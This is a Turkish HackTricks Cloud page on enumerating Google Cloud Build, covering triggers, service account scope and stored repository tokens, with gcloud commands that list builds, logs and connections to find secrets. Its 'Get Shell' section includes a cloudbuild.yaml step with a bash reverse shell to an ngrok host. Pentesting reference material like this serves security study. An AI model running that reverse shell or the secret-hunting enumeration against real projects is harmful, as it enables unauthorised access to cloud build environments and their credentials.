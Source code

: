 # GCP - Cloud Build Enum

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

- **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
- [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
- [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
- **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
- **Hacking püf noktalarınızı paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek.

</details>

## Temel Bilgiler

Google Cloud Build, **yazılım derleme** ve sürüm süreçlerini otomatikleştiren, **kaynak kod depolarıyla entegre olan** ve geniş bir programlama dilini destekleyen bir yönetilen CI/CD platformudur. Geliştiricilere kodu otomatik olarak derlemelerini, test etmelerini ve dağıtmalarını sağlarken derleme adımlarını ve iş akışlarını özelleştirmelerine olanak tanır.

Her Cloud Build Tetikleyicisi, bir **Cloud Deposu ile ilişkilidir veya harici bir depo ile doğrudan bağlantılıdır** (Github, Bitbucket ve Gitlab).

{% hint style="success" %}
Buradan veya Cloud Deposularından Github/Bitbucket belirteci çalmak için herhangi bir yol göremedim çünkü depo indirildiğinde [https://source.cloud.google.com/](https://source.cloud.google.com/) URL'si üzerinden erişilir ve Github istemci tarafından erişilmez.
{% endhint %}

### Olaylar

Cloud Build, şu durumlarda tetiklenebilir:

- **Bir şubeye itme**: Şubeyi belirtin
- **Yeni bir etiket itme**: Etiketi belirtin
- **Çekme isteği**: PR'yi alan şubeyi belirtin
- **Manuel Çağrı**
- **Pub/Sub mesajı**: Konuyu belirtin
- **Web kancası olayı**: Bir HTTPS URL'si açığa çıkaracak ve istek bir sırla kimlik doğrulaması yapmalı

### Yürütme

3 seçenek vardır:

- Yürütülecek komutları belirten bir yaml/json. Genellikle: `/cloudbuild.yaml`
- Web konsolunda ve cli'de "içe" belirtilebilecek tek seçenek
- En yaygın seçenek
- Kimlik doğrulamasız erişim için ilgili
- Derlemek için bir **Dockerfile**
- Derlemek için bir **Buildpack**

### SA İzinleri

**Hizmet Hesabı `cloud-platform` kapsamına sahiptir**, bu nedenle **tüm ayrıcalıkları kullanabilir.** **SA belirtilmediğinde** (örneğin, gönderme yapılırken) **varsayılan SA** `<proj-numarası>@cloudbuild.gserviceaccount.com` **kullanılacaktır.**

Varsayılan olarak hiçbir izin verilmez ancak bazı izinler vermek oldukça kolaydır:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Onaylar

Bir Cloud Build'in **derleme yürütümleri için onay gerektirmesi** yapılandırılabilir (varsayılan olarak devre dışı bırakılmıştır).

### Bağlantılar ve Depolar

Bağlantılar şunlar üzerinden oluşturulabilir:

- **GitHub:** Github belirteci almak için izin isteyen bir OAuth iletişim kutusu gösterecektir ve bu, **Secret Manager içinde saklanacak bir Github belirteci** almak için istenecektir.
- **GitHub Enterprise:** Bir **GithubApp** yüklemesi yapmanızı isteyecektir. GitHub Enterprise ana bilgisayarınızdan bir **kimlik doğrulama belirteci** oluşturulacak ve bu proje içinde bir **Secret Manager** sırrı olarak saklanacaktır.
- **GitLab / Enterprise:** **API erişim belirteci ve Okuma API erişim belirteci** sağlamanız gerekecektir ve bunlar **Secret Manager'da saklanacaktır.**

Bir bağlantı oluşturulduğunda, Github hesabının erişimine sahip olduğu depoları **bağlamak için kullanılabilir.**

Bu seçenek, aşağıdaki düğme aracılığıyla kullanılabilir:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Bu yöntemle bağlanan depoların yalnızca 2. nesil kullanarak Tetikleyicilerde mevcut olduğunu unutmayın.
{% endhint %}

### Bir Depoyu Bağlama

Bu bir **`bağlantı`** ile aynı değildir. Bu, **Github veya Bitbucket** deposuna erişmenin **farklı** yollarını sağlar ancak bir **bağlantı nesnesi oluşturmaz, ancak bir depo nesnesi (1. nesil) oluşturur.**

Bu seçenek, aşağıdaki düğme aracılığıyla kullanılabilir:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Depolama

Bazen Cloud Build, tetikleyici için dosyaları saklamak için **yeni bir depolama oluşturacaktır**. Bu örneğin, GCP'nin sunduğu örnekte olduğu gibi gerçekleşir:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### Kabuk Al

Kullanılacak dosyaları içeren bir `.tgz` dosyasını depolamak için [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) adında bir depolama kovası oluşturulmuştur.
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Cloud Build içinde gcloud'u yükleyin:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Saptama

**Yapılandırma ve günlüklerde hassas bilgiler bulabilirsiniz**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Yetki Yükseltme

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Kimlik Doğrulamasız Erişim

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Saldırı Sonrası Aşama

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi **HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** istiyorsanız [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family'yi**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
